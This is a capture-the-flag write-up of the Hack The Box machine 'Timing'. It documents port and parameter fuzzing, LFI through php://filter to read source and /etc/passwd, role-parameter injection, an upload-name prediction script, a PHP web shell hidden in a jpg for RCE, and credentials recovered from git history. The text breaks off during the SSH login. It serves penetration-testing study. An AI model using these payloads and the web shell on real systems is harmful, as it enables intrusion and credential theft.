


# Timing by k0rriban

## htbexplorer report
|  Name      |  IP Address   |  Operating System  |  Points  |  Rating  |  User Owns  |  Root Owns  |  Retired  |  Release Date  |  Retired Date  |  Free Lab  |  ID   | 
| :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: |
| Timing  | 10.10.11.135  | Linux              | 30       | 4.3      | 2395        | 2157        | No        | 2021-12-11     | Is Active      | Yes        | 421          |

## Summary
1. Scan ports --> 22, 80
2. fuzz `/image.php` parameters --> `/image.php?img=`
3. Use `php://filter` on `img=` for path traversal --> `/etc/passwd`
4. Obtain web files --> `aaron:aaron` (privs level 2)
5. Escalate privileges to level 1 on `profile.php` --> `Admin panel`
6. Upload web shell injected in image --> RCE as `www-data`
7. Git diff on `source-files-backup.zip` --> `aaron:S3cr3t_unGu3ss4bl3_p422w0Rd` user shell
8. netutils is NOPASSWD, replace `/root/.ssh/authorized_keys` with your key --> root shell
   
## Enumeration
### OS
|  TTL      |  OS  |
| :-: | :-: |
| +- 64    | Linux |
| +- 128   | Windows |

As we can see in the code snippet below, the operating system is Linux.
```bash
❯ ping -c 1 10.10.11.135
PING 10.10.11.135 (10.10.11.135) 56(84) bytes of data.
64 bytes from 10.10.11.135: icmp_seq=1 ttl=63 time=39.6 ms
```

### Nmap port scan
First of all, we need to scan the victim to see what ports are open. As this is a consented operation, we will use the nmap tool with non-anonymous settings.
```bash
❯ sudo nmap -p- -sS -min-rate 5000 -T5 -Pn -n 10.10.11.135 -oG Enum/nmap.out -v
```

The result ports are shown below.
```bash
❯ extractPorts Enum/nmap.out
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: extractPorts.tmp
       │ Size: 117 B
───────┼───────────────────────────────────────────────────────────────────────────
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 10.10.11.135
   5   │     [*] Open ports: 22,80
   6   │ 
   7   │ [*] Ports copied to clipboard
   8   │ 
───────┴───────────────────────────────────────────────────────────────────────────
```

Let's scan the open ports to obtain detailed information.
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d2:5c:40:d7:c9:fe:ff:a8:83:c3:6e:cd:60:11:d2:eb (RSA)
|   256 18:c9:f7:b9:27:36:a1:16:59:23:35:84:34:31:b3:ad (ECDSA)
|_  256 a2:2d:ee:db:4e:bf:f9:3f:8b:d4:cf:b4:12:d8:20:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Simple WebApp
|_Requested resource was ./login.php
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Final nmap report
| Port | Service | Version | Extra | 
| :-: | :-: | :-: | :-: |
| 22 | ssh | OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 | -  |
| 80 | http | Apache httpd 2.4.29 | -  |

### Web scrapping
#### Technology scan
```bash
❯ whatweb 10.10.11.135
http://10.10.11.135 [302 Found] Apache[2.4.29], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.11.135], RedirectLocation[./login.php]
http://10.10.11.135/login.php [200 OK] Apache[2.4.29], Bootstrap, Cookies[PHPSESSID], Country[RESERVED][ZZ], Email[#,dkstudioin@gmail.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.11.135], JQuery, PHP, Script, Title[Simple WebApp]
```
##### Technology report
With whatweb and wappalizer's results, we obtain:
| Technology | Version | Detail | 
| :-: | :-: | :-: |
| Cookies | PHPSESSID | -  |
| Apache | 2.4.29 | -  |
| Bootstrap | 3.4.1  | -  |
| JQuery | 3.5.1 | -  |
| PHP | -  | -  |
| Email | dkstudioin@gmail.com | -  |

### Subdirectory fuzzing
We start listing any directory accessible from web:
```bash
❯ sudo wfuzz -c --hc=302,403,404 -t 200 -w /usr/share/dirbuster/directory-list-1.0.txt 10.10.11.135/FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.135/FUZZ
Total requests: 141708

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000000080:   301        9 L      28 W       313 Ch      "images"          
000014176:   301        9 L      28 W       310 Ch      "css"             
000014495:   301        9 L      28 W       309 Ch      "js"
```
The redirection leads to a "forbidden access" page, so this path is a dead end. Next, let's enumerate the .php files available:
```bash
❯ sudo wfuzz -c --hc=403,404 -t 200 -w /usr/share/dirbuster/directory-list-2.3-medium.txt 10.10.11.135/FUZZ.php
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.135/FUZZ.php
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                      
=====================================================================

000000001:   302        0 L      0 W        0 Ch        "# directory-list-2.3-medium.txt"                                                                            
000000007:   302        0 L      0 W        0 Ch        "# license, visit http://creativecommons.org/licenses/by-sa/3.0/"                                            
000000012:   302        0 L      0 W        0 Ch        "# on atleast 2 different hosts"                                                                             
000000333:   200        115 L    264 W      3933 Ch     "footer"                                                                                                     
000000366:   302        0 L      0 W        0 Ch        "upload"                                                                                                     
000000163:   200        0 L      0 W        0 Ch        "image"                                                                                                      
000001225:   302        0 L      0 W        0 Ch        "logout"                                                                                                     
000000086:   302        0 L      0 W        0 Ch        "profile"                                                                                                    
000000053:   200        177 L    374 W      5605 Ch     "login"                                                                                                      
000000004:   302        0 L      0 W        0 Ch        "#"                                                                                                          
000000002:   302        0 L      0 W        0 Ch        "#"                                                                                                          
000000005:   302        0 L      0 W        0 Ch        "# This work is licensed under the Creative Commons"                                                         
000000008:   302        0 L      0 W        0 Ch        "# or send a letter to Creative Commons, 171 Second Street,"                                                 
000000006:   302        0 L      0 W        0 Ch        "# Attribution-Share Alike 3.0 License. To view a copy of this"                                              
000000009:   302        0 L      0 W        0 Ch        "# Suite 300, San Francisco, California, 94105, USA."                                                        
000000010:   302        0 L      0 W        0 Ch        "#"                                                                                                          
000000013:   302        0 L      0 W        0 Ch        "#"                                                                                                          
000000011:   302        0 L      0 W        0 Ch        "# Priority ordered case sensative list, where entries were found"                                           
000000003:   302        0 L      0 W        0 Ch        "# Copyright 2007 James Fisher"                                                                              
000000015:   302        0 L      0 W        0 Ch        "index"                                    
```
We discovered two more php files, footer.php (not very useful) and image.php (apparently empty).

### PHP parameter fuzzing
As we are not able to enumerate the php files, we will try to fuzz the parameters of the login.php file.
```bash
❯ wfuzz -u "http://10.10.11.135/login.php?FUZZ=../../../../etc/passwd" -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -t 200 --hh 0
```
But any parameter tried returns code 200, so we can't fuzz it like this. The last thing we can try is to fuzz the parameters for `image.php`, we are not sure there is one, but `image.php` returns a blank page, so it is probably an auxiliar php recieving params.
```bash
❯ wfuzz -u "http://10.10.11.135/image.php?FUZZ=../../../../etc/passwd" -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -t 200 --hh 0
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.135/image.php?FUZZ=../../../../etc/passwd
Total requests: 6453

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000002803:   200        0 L      3 W        25 Ch       "img"        
```
We found a parameter called img, which returns smth different than blank:
```bash
❯ curl "http://10.10.11.135/image.php?img=../../../../"
Hacking attempt detected!
```
This means we found a parameter that has LFI access to the system, but it is patched, at list on it most basic form. Let's try to bypass the filter:
- Double slash: LFI Detected
    ```bash
    ❯ curl "http://10.10.11.135/image.php?img=....//....//....//....//"
    Hacking attempt detected!
    ```
- Inverted slash: Didn't detect LFI, but no output.
    ```bash
    ❯ curl "http://10.10.11.135/image.php?img=....\/....\/....\/etc/passwd"
    ```
- Encoded path: Didn't detect LFI, but no output.
    ```bash
    ❯ curl "http://10.10.11.135/image.php?img=..%252f..%252f..%252fetc%252fpasswd"
    ```
- Wrappers.Filter: Filter wrappers for LFI
    - ROT13: Success!!!
        ```bash
        ❯ curl "http://10.10.11.135/image.php?img=php://filter/read=string.rot13/resource=/etc/passwd"
        ```
    - BASE64: Success!!!
        ```bash
        ❯ curl "http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/etc/passwd"
        ```
The content of /etc/passwd is returned enconded, after decoding it we obtain:
```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
aaron:x:1000:1000:aaron:/home/aaron:/bin/bash
```
So we can enumerate the users with a shell:
| UID | Username | Shell |
| :-: |:--------:|:-----:|
|  0  | root     | /bin/bash |
| 1000 | aaron   | /bin/bash |

## Exploit
Now that we have a way to extract files from the system and we know the user `aaron`, we can try to gain access as aaron:
### SSH Key Leakage
Extract id_rsa file from `/home/aaron/.ssh/`, and use it to connect to the system.
```bash
❯ curl "http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/home/aaron/.ssh/id_rsa"
```
The file seems unaccessible from the web.

### Bypass login.php
#### Reading source code
Now that we can retrieve files from the system, we can try to obtain `login.php` and have a look at it's content:
```bash
❯ curl "http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/var/www/html/login.php"
```
The request is successful and we can read the content of login.php.
We can see the following code, which checks the login:
```php
  18   │if (isset($_GET['login'])) {
  19   │     $username = $_POST['user'];
  20   │     $password = $_POST['password'];
  21   │ 
  22   │     $statement = $pdo->prepare("SELECT * FROM users WHERE username = :username");
  23   │     $result = $statement->execute(array('username' => $username));
  24   │     $user = $statement->fetch();
  25   │ 
  26   │     if ($user !== false) {
  27   │         createTimeChannel();
  28   │         if (password_verify($password, $user['password'])) {
  29   │             $_SESSION['userid'] = $user['id'];
  30   │             $_SESSION['role'] = $user['role'];
  31   │         header('Location: ./index.php');
  32   │             return;
  33   │         }
  34   │     }
  35   │     $errorMessage = "Invalid username or password entered";
  36   │ 
  ```
As we can see in the line 28, the password is verified with a function `password_verify`, outside this file. If the login is successful, we obtain a phpsession and are redirected to `index.php`. We also see `include "db_conn.php";` in the file, which is used to connect to the database.
```bash
❯ curl "http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/var/www/html/db_conn.php"
PD9waHAKJHBkbyA9IG5ldyBQRE8oJ215c3FsOmhvc3Q9bG9jYWxob3N0O2RibmFtZT1hcHAnLCAncm9vdCcsICc0X1YzUnlfbDAwMDBuOV9wNDIydzByZCcpOwo=%                                         ❯ echo "PD9waHAKJHBkbyA9IG5ldyBQRE8oJ215c3FsOmhvc3Q9bG9jYWxob3N0O2RibmFtZT1hcHAnLCAncm9vdCcsICc0X1YzUnlfbDAwMDBuOV9wNDIydzByZCcpOwo=" | base64 -d > Results/db_conn.php
❯ cat Results/db_conn.php
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: Results/db_conn.php
       │ Size: 92 B
───────┼───────────────────────────────────────────────────────────────────────────
   1   │ <?php
   2   │ $pdo = new PDO('mysql:host=localhost;dbname=app', 'root', '4_V3Ry_l0000n9_p422w0rd');
───────┴───────────────────────────────────────────────────────────────────────────
```
This file contains the credentials of the database of the system, but mysql port is not open, so we need to have a user shell in the localhost of the machine to access the database.

Remember we say a file index.php, let's retrieve it:
```bash
❯ curl "http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/var/www/html/index.php"
```
But it's content only reveals `header.php`. Next, try to access to the other 302 redirects from wfuzz:
- `/var/www/html/upload.php`:
    ```bash
    ❯ curl "http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/var/www/html/upload.php"
    ```
    - Dependencies: `admin_auth_check.php`
    - Uploads directory: `images/uploads`
- `/var/www/html/profile.php`:
    ```bash
    ❯ curl "http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/var/www/html/profile.php"
    ```
    - Dependencies: `header.php`, `db_conn.php`, `js/profile.js`
- `/var/www/html/admin_auth_check.php`:
    ```bash
    ❯ curl "http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/var/www/html/admin_auth_check.php"
    ```
    - Dependencies: `auth_check.php`
    - Redirection: `/var/www/html/index.php`
- `/var/www/html/js/profile.js`:
    ```bash
    ❯ curl "http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/var/www/html/js/profile.js"
    ```
    - POST requests: `/var/www/html/profile_update.php`
- `/var/www/html/profile_update.php`:
    ```bash
    ❯ curl "http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/var/www/html/profile_update.php"
    ```
    - Dependencies: `auth_check`
- `/var/www/html/auth_check.php`:
    ```bash
    ❯ curl "http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/var/www/html/auth_check.php"
    ```
    - Redirection: `/var/www/html/login.php`
- `/var/www/html/image.php`:
    ```bash
    ❯ curl "http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/var/www/html/image.php"
    ```
    - Decoded source code:
    ```bash
        ❯ cat Results/image.php
        ───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
            │ File: Results/image.php
            │ Size: 507 B
        ───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
        1   │ <?php
        2   │ 
        3   │ function is_safe_include($text)
        4   │ {
        5   │     $blacklist = array("php://input", "phar://", "zip://", "ftp://", "file://", "http://", "data://", "expect://", "https://", "../");
        6   │ 
        7   │     foreach ($blacklist as $item) {
        8   │         if (strpos($text, $item) !== false) {
        9   │             return false;
        10   │         }
        11   │     }
        12   │     return substr($text, 0, 1) !== "/";
        13   │ 
        14   │ }
        15   │ 
        16   │ if (isset($_GET['img'])) {
        17   │     if (is_safe_include($_GET['img'])) {
        18   │         include($_GET['img']);
        19   │     } else {
        20   │         echo "Hacking attempt detected!";
        21   │     }
        22   │ }
        ───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
        ```


#### RCE via LFI
From the code above we can see that if we ask for "safe" files, we can access to them without the filter.
```bash
❯ curl "http://10.10.11.135/image.php?img=js/profile.js"
function updateProfile() {
    var xml = new XMLHttpRequest();
    xml.onreadystatechange = function () {
        if (xml.readyState == 4 && xml.status == 200) {
            document.getElementById("alert-profile-update").style.display = "block"
        }
    };

    xml.open("POST", "profile_update.php", true);
    xml.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    xml.send("firstName=" + document.getElementById("firstName").value + "&lastName=" + document.getElementById("lastName").value + "&email=" + document.getElementById("email").value + "&company=" + document.getElementById("company").value);
}
```
Now we need to find a way to upload a file to the server without being authenticated. As a last resource, we try bruteforcing the user aaron:
```bash
❯ wfuzz -u "http://10.10.11.135/login.php?login=true" -H "Content-type: application/json" -d '{"user":"aaron","password":"FUZZ"}' -w /usr/share/dict/rockyou.txt -t 200 --hh 5959
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.135/login.php?login=true
Total requests: 14344391

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

```
Not even 14 million passwords could break into the application...
After some time trying to get authenticated, we tried the credential `aaron:aaron`. So we obtained a user 2 account on the web, let's see what can we do as so.
User 2 account only provides access to the `/var/www/html/profile.php` file. So we need to update our role to user 1.

##### profile_update.php
The file profile_update.php contains the following code:
```bash
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: Results/profile_update.php
       │ Size: 1.7 KB
───────┼───────────────────────────────────────────────────────────────────────────
   1   │ <?php
   2   │ 
   3   │ include "auth_check.php";
   4   │ 
   5   │ $error = "";
   6   │ 
   7   │ if (empty($_POST['firstName'])) {
   8   │     $error = 'First Name is required.';
   9   │ } else if (empty($_POST['lastName'])) {
  10   │     $error = 'Last Name is required.';
  11   │ } else if (empty($_POST['email'])) {
  12   │     $error = 'Email is required.';
  13   │ } else if (empty($_POST['company'])) {
  14   │     $error = 'Company is required.';
  15   │ }
  16   │ 
  17   │ if (!empty($error)) {
  18   │     die("Error updating profile, reason: " . $error);
  19   │ } else {
  20   │ 
  21   │     include "db_conn.php";
  22   │ 
  23   │     $id = $_SESSION['userid'];
  24   │     $statement = $pdo->prepare("SELECT * FROM users WHERE id = :id");
  25   │     $result = $statement->execute(array('id' => $id));
  26   │     $user = $statement->fetch();
  27   │ 
  28   │     if ($user !== false) {
  29   │                 
  30   │         ini_set('display_errors', '1');
  31   │         ini_set('display_startup_errors', '1');
  32   │         error_reporting(E_ALL);
  33   │ 
  34   │         $firstName = $_POST['firstName'];
  35   │         $lastName = $_POST['lastName'];
  36   │         $email = $_POST['email'];
  37   │         $company = $_POST['company'];
  38   │         $role = $user['role'];
  39   │ 
  40   │         if (isset($_POST['role'])) {
  41   │             $role = $_POST['role'];
  42   │             $_SESSION['role'] = $role;
  43   │         }
  44   │ 
  45   │ 
  46   │         // dont persist role
  47   │         $sql = "UPDATE users SET firstName='$firstName', lastName='$lastName', email='$email', company='$company' WHERE id=$id";
  48   │ 
  49   │         $stmt = $pdo->prepare($sql);
  50   │         $stmt->execute();
  51   │ 
  52   │         $statement = $pdo->prepare("SELECT * FROM users WHERE id = :id");
  53   │         $result = $statement->execute(array('id' => $id));
  54   │         $user = $statement->fetch();
  55   │ 
  56   │         // but return it to avoid confusion
  57   │         $user['role'] = $role;
  58   │         $user['6'] = $role;
  59   │ 
  60   │         echo json_encode($user, JSON_PRETTY_PRINT);
  61   │ 
  62   │     } else {
  63   │         echo "No user with this id was found.";
  64   │     }
  65   │ 
  66   │ }
  67   │ 
  68   │ ?>
───────┴───────────────────────────────────────────────────────────────────────────
```
If we take a look at lines 40-43:
```bash
  40   │         if (isset($_POST['role'])) {
  41   │             $role = $_POST['role'];
  42   │             $_SESSION['role'] = $role;
  43   │         }
``` 
We can notice that this file can update the role of a user if it recieves a role parameter. Remember that `profile.php` used `profile.js` as a middleware to update the user profile. Let's check `profile.js`:
```bash
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: Results/profile.js
       │ Size: 637 B
───────┼───────────────────────────────────────────────────────────────────────────
   1   │ function updateProfile() {
   2   │     var xml = new XMLHttpRequest();
   3   │     xml.onreadystatechange = function () {
   4   │         if (xml.readyState == 4 && xml.status == 200) {
   5   │             document.getElementById("alert-profile-update").style.display = "block"
   6   │         }
   7   │     };
   8   │ 
   9   │     xml.open("POST", "profile_update.php", true);
  10   │     xml.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
  11   │     xml.send("firstName=" + document.getElementById("firstName").value + "&lastName=" + document.getElementById("lastName").value + "&email=" + document.getElementById("email").value + "&company=" + document.getElementById("company").value);
  12   │ }
───────┴───────────────────────────────────────────────────────────────────────────
```
We observe that the data sent to `profile_update.php` is just concatenated, this means it is possible to inject another parameter as "a&role=1".

Success!!! This injection allowed us to access to the admin panel:


##### avatar_uploader.php
We gained access to another web page: `avatar_uploader.php`. The page offers an image input, which we could use to upload a script. But first, let's retrieve the file `/var/www/html/Results/avatar_uploader.php`:
- The file contains an inclusion to `js/avatar_uploader.js`
- Button click activates doUpload() from `js/avatar_uploader.js`

Reading `/var/www/html/Results/js/avatar_uploader.js` we observe it acts as a middleware to upload an image. Retrieves the image from the input and sends it to `upload.php` by POST.
On `upload.php` we know where the images are uploaded, at `/images/uploads`, but also, it only accepts jpg files:
```php
if ($imageFileType != "jpg") {
    $error = "This extension is not allowed.";
}
```
In addition, the image is renamed by the steps:
```php
$file_hash = uniqid();
$file_name = md5('$file_hash' . time()) . '_' . basename($_FILES["fileToUpload"]["name"]);
$target_file = $upload_dir . $file_name;
```
So accessing the file can be hard. 

To access the file we need to use the following script, but notice that `'$file_hash` is not actually replacing, as in php, the $ replacement can only be done in double quoted strings.
```python
from hashlib import md5
from posixpath import basename
from sys import argv
import time, math, random
from requests import request

 # Get file from args
url = argv[1]
file_to_upload = argv[2]


while True:
    #file_hash = uniqid()
    file_name =  md5('$file_hash'.encode() + str(int(time.time())).encode()).hexdigest() + '_' + basename(file_to_upload)
    # Create a string that contains the time in mm:ss format
    seconds = str(int(time.time() % 60))
    print(seconds +" -> " +file_name)

    # perform GET request with the file name to the url
    req = request('GET', url + file_name)
    data = req.content
    if len(data) != 0:
        print("File found on:" + file_name)
        break

    time.sleep(1)
```

Success!!!! As seen below we can now obtain the name of the uploaded file.
```bash
❯ python3 Exploits/obtain_filename.py "http://10.10.11.135/image.php?img=images/uploads/" black.jpg
39 -> 68d6743b75786b2f0847950c57156ee0_black.jpg
40 -> aa5a30f633e78ae74eb04882ce1a9ba4_black.jpg
41 -> 980d012ba39215a0799309dc86e094a1_black.jpg
42 -> e2dc2e11052902c146eda920fd456c95_black.jpg
File found on:e2dc2e11052902c146eda920fd456c95_black.jpg
```

With this tool now we can test if we can run a script, i.e. php, as a jpg file. We curl the uploaded image and obtain this output:
```bash
❯ curl "http://10.10.11.135/image.php?img=images/uploads/e2dc2e11052902c146eda920fd456c95_black.jpg" --output -
JFIF   ( %!1!%)+...383-7(-.+


++++77-++++7++7+++++++++++++++++++++++++++++++++++"
                                                   ?D"(**
 
(**EE*

"(( 
*(
*
(( 
(*(*

**
TQP4Q@TAP@E
           T@P@ ( *( 
(
 
"
@TT@EQ@UT@TjT@P@UQAE@AQ@EEQAP@PP@@BPPXX@ 
-@@X@
(G%                    
```
As we can see, it returns the content of the file, without processing it, just reading, this looks a lot like a php injection vulnerability. So let's try to run the script:
```php
<?php 
if(isset($_GET['cmd']))
  {
    system($_GET['cmd']);
  }
?>
```
as an jpg file.

Success. After injecting the command at the end of the testing jpg file, we can access to it with an additional parameter, `cmd`.
```bash
❯ curl "http://10.10.11.135/image.php?img=images/uploads/456e3906b826586540c60ab73c3ba953_black.jpg&cmd=id" --output -
JFIF    ( %!1!%)+...383-7(-.+


++++77-++++7++7+++++++++++++++++++++++++++++++++++"
                                                   ?D"(**
 
(**EE*

"(( 
*(
*
(( 
(*(*

**
TQP4Q@TAP@E
           T@P@ ( *( 
(
 
"
@TT@EQ@UT@TjT@P@UQAE@AQ@EEQAP@PP@@BPPXX@ 
-@@X@
(G

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We achieved RCE via LFI.

## Obtaining user shell
Up to now, we are able to access to the machines files and execute commans, with that in mind, we can scrap the victims file system looking for credentials. After some time injecting commands, we found:
```bash
❯ curl "http://10.10.11.135/image.php?img=images/uploads/456e3906b826586540c60ab73c3ba953_black.jpg&cmd=ls%20/opt%20-la" --output -
total 624
drwxr-xr-x  2 root root   4096 Dec  2 11:19 .
drwxr-xr-x 24 root root   4096 Nov 29 01:34 ..
-rw-r--r--  1 root root 627851 Jul 20  2021 source-files-backup.zip
```

Let's try to download the zip file:
```bash
❯ curl "http://10.10.11.135/image.php?img=images/uploads/456e3906b826586540c60ab73c3ba953_black.jpg&cmd=cat%20/opt/source-files-backup.zip%20|%20base64" > source-files-backup.zip
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  828k    0  828k    0     0  1503k      0 --:--:-- --:--:-- --:--:-- 1501k
❯ mv source-files-backup.zip source-files-backup.zipB64
❯ cat source-files-backup.zipB64 | base64 -d > source-files-backup.zip
❯ unzip source-files-backup.zip
❯ cd backup/
❯ ls
 css                    auth_check.php        header.php   logout.php
 images                 avatar_uploader.php   image.php    profile.php
 js                     db_conn.php           index.php    profile_update.php
 admin_auth_check.php   footer.php            login.php    upload.php
❯ ls -a
 .        js                     footer.php   logout.php
 ..       admin_auth_check.php   header.php   profile.php
 .git     auth_check.php         image.php    profile_update.php
 css      avatar_uploader.php    index.php    upload.php
 images   db_conn.php            login.php   
```
We observe that this is backup of the web source files, but there is also a git folder, which we can use to check previous versions. Let's see if any file has hardcoded credentials:
The file `login.php` hasn't any credentials hardcoded, but the file `db_conn.php` has:
```git
@@ -1,2 +1,2 @@
 <?php
-$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', 'S3cr3t_unGu3ss4bl3_p422w0Rd');
+$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', '4_V3Ry_l0000n9_p422w0rd');
```

Let's try these passwords against ssh:
```bash
❯ ssh aaron@10.10.11.135
The authenticity of host '10.10.11.135 (10.10.11.135)' can't be established.
ED25519 key fingerprint is SHA256:l+I6D4WoPXSUZt7KMuKochzDuE9R21TrDSgg9nJcD5I.
